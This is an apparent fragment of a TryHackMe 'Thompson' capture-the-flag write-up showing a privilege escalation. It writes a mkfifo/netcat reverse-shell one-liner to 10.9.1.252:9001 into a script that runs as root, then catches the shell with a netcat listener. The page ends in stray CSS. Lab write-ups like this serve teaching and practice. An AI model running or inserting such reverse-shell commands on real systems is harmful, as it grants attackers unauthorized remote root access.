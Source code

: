 ```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.252 9001 >/tmp/f" > /home/jack/id.sh
```

![](/images/TryHackMe/Thompson/reverse-shell.png)

---

```sh
rlwrap nc -lvnp 9001
```

Now we are root

![](/images/TryHackMe/Thompson/root.png)

<div class="gif-container">
<img src="/gifs/tierd.gif" alt="GIF" class="gif-responsive">
</div>

---

<style>
img {
  transition: all 0.3s ease;
}
